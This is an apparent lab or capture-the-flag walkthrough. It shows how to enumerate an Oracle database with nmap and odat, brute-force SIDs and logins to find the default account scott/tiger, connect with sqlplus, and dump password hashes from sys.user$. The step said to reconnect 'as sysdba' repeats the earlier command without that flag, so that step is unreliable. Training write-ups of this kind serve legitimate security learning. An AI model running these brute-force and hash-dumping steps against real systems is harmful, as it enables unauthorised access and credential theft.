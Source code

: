 # Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.

We start with a nmap scan to check the oracle service is up and running in the default port

`sudo nmap -p1521 -sV 10.129.230.109 --open`

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 13:53 CDT
    Nmap scan report for 10.129.230.109
    Host is up (0.35s latency).
    
    PORT     STATE SERVICE    VERSION
    1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.27 seconds

It is. We continue with a scan with [odat](https://github.com/quentinhardy/odat)

`./odat.py all -s 10.129.230.109`

Make some coffee. This will take a while :)

After some outputs:

    [+] Checking if target 10.129.230.109:1521 is well configured for a connection...
    [+] According to a test, the TNS listener 10.129.230.109:1521 is well configured. Continue...
    
    [1] (10.129.230.109:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
    [+] Impossible to know if target is vulnerable to a remote TNS poisoning because SID is not given.
    
    [2] (10.129.230.109:1521): Searching valid SIDs
    [2.1] Searching valid SIDs thanks to a well known SID list on the 10.129.230.109:1521 server
    [+] 'XE' is a valid SID. Continue...           ############################################################# | ETA:  00:00:01 
    100% |#######################################################################################################| Time: 00:02:24 
    [2.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.129.230.109:1521)
    100% |#######################################################################################################| Time: 00:00:07 
    [2.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.129.230.109:1521)
    [+] 'XE' is a valid SID. Continue...           ##################################################            | ETA:  00:00:12 
    100% |#######################################################################################################| Time: 00:01:59 
    [+] SIDs found on the 10.129.230.109:1521 server: XE
    
    [3] (10.129.230.109:1521): Searching valid Service Names
    [3.1] Searching valid Service Names thanks to a well known Service Name list on the 10.129.230.109:1521 server
    [+] 'XE' is a valid Service Name. Continue...  ############################################################# | ETA:  00:00:01 
    [+] 'XEXDB' is a valid Service Name. Continue... 
    100% |#######################################################################################################| Time: 00:02:19 
    [3.2] Searching valid Service Names thanks to a brute-force attack on 1 chars now (10.129.230.109:1521)
    100% |#######################################################################################################| Time: 00:00:03 
    [3.3] Searching valid Service Names thanks to a brute-force attack on 2 chars now (10.129.230.109:1521)
    [+] 'XE' is a valid Service Name. Continue...  ##################################################            | ETA:  00:00:13 
    100% |#######################################################################################################| Time: 00:01:57 
    [+] Service Name(s) found on the 10.129.230.109:1521 server: XE,XEXDB
    [!] Notice: SID 'XE' found. Service Name 'XE' found too: Identical database instance. Removing Service Name 'XE' from Service Name list in order to don't do same checks twice

You will have this question: 

    The login cis has already been tested at least once. What do you want to do:                                 | ETA:  00:08:30 
    - stop (s/S)
    - continue and ask every time (a/A)
    - skip and continue to ask (p/P)
    - continue without to ask (c/C)

I gonna choose C

`C` + enter

At some point you will have this output:

    [!] Notice: 'ctxsys' account is locked, so skipping this username for password                               | ETA:  00:53:50 
    [!] Notice: 'dbsnmp' account is locked, so skipping this username for password                               | ETA:  00:47:45 
    [!] Notice: 'dip' account is locked, so skipping this username for password                                  | ETA:  00:40:42 
    [!] Notice: 'hr' account is locked, so skipping this username for password                                   | ETA:  00:24:33 
    [!] Notice: 'mdsys' account is locked, so skipping this username for password                                | ETA:  00:14:50 
    [!] Notice: 'oracle_ocm' account is locked, so skipping this username for password                           | ETA:  00:10:08 
    [!] Notice: 'outln' account is locked, so skipping this username for password                                | ETA:  00:08:44 
    [+] Valid credentials found: scott/tiger. Continue...                                                        | ETA:  00:04:13 
    [!] Notice: 'xdb' account is locked, so skipping this username for password#############################     | ETA:  00:00:45 
    100% |#######################################################################################################| Time: 00:18:30 
    [+] Accounts found on 10.129.230.109:1521/sid:XE: 
    scott/tiger

scott/tiger are user/password credentials we can use to connect to Oracle.

Let's run:

`sqlplus scott/tiger@10.129.230.109/XE`

    Output:
    
    SQL*Plus: Release 21.0.0.0.0 - Production on Mon Sep 30 14:27:58 2024
    Version 21.12.0.0.0
    
    Copyright (c) 1982, 2022, Oracle.  All rights reserved.
    
    ERROR:
    ORA-28002: the password will expire within 7 days
    
    
    
    Connected to:
    Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
    
    SQL> 


Let's try to retrieves all role privileges granted to the current user
`SQL> select * from user_role_privs;`

    USERNAME		       GRANTED_ROLE		      ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SCOTT			       CONNECT			      NO  YES NO
    SCOTT			       RESOURCE 		      NO  YES NO

This is not very useful. Let's try to connect again as `sysdba` and have elevated SYSDBA privileges. (SYSDBA privileges in Oracle grant the highest level of administrative access)

`sqlplus scott/tiger@10.129.230.109/XE`
`SQL> select * from user_role_privs;`

Now we are talking. Look at the output:
    
    USERNAME		       GRANTED_ROLE		      ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS			       ADM_PARALLEL_EXECUTE_TASK      YES YES NO
    SYS			       APEX_ADMINISTRATOR_ROLE	      YES YES NO
    SYS			       AQ_ADMINISTRATOR_ROLE	      YES YES NO
    SYS			       AQ_USER_ROLE		      YES YES NO
    SYS			       AUTHENTICATEDUSER	      YES YES NO
    SYS			       CONNECT			      YES YES NO
    SYS			       CTXAPP			      YES YES NO
    SYS			       DATAPUMP_EXP_FULL_DATABASE     YES YES NO
    SYS			       DATAPUMP_IMP_FULL_DATABASE     YES YES NO
    SYS			       DBA			      YES YES NO
    SYS			       DBFS_ROLE		      YES YES NO
    
    USERNAME		       GRANTED_ROLE		      ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS			       DELETE_CATALOG_ROLE	      YES YES NO
    SYS			       EXECUTE_CATALOG_ROLE	      YES YES NO
    SYS			       EXP_FULL_DATABASE	      YES YES NO
    SYS			       GATHER_SYSTEM_STATISTICS       YES YES NO
    SYS			       HS_ADMIN_EXECUTE_ROLE	      YES YES NO
    SYS			       HS_ADMIN_ROLE		      YES YES NO
    SYS			       HS_ADMIN_SELECT_ROLE	      YES YES NO
    SYS			       IMP_FULL_DATABASE	      YES YES NO
    SYS			       LOGSTDBY_ADMINISTRATOR	      YES YES NO
    SYS			       OEM_ADVISOR		      YES YES NO
    SYS			       OEM_MONITOR		      YES YES NO
    
    USERNAME		       GRANTED_ROLE		      ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SYS			       PLUSTRACE		      YES YES NO
    SYS			       RECOVERY_CATALOG_OWNER	      YES YES NO
    SYS			       RESOURCE 		      YES YES NO
    SYS			       SCHEDULER_ADMIN		      YES YES NO
    SYS			       SELECT_CATALOG_ROLE	      YES YES NO
    SYS			       XDBADMIN 		      YES YES NO
    SYS			       XDB_SET_INVOKER		      YES YES NO
    SYS			       XDB_WEBSERVICES		      YES YES NO
    SYS			       XDB_WEBSERVICES_OVER_HTTP      YES YES NO
    SYS			       XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

Now let's try to get the hash of the password:

`SQL> select name, password from sys.user$;`

You will have an output like this: 

    OEM_MONITOR
    DBSNMP			       [THIS IS THE ANSWER]
    APPQOSSYS		       519D632B7EE7F63A

And that's all! 

New dark spell mastered! 🧙
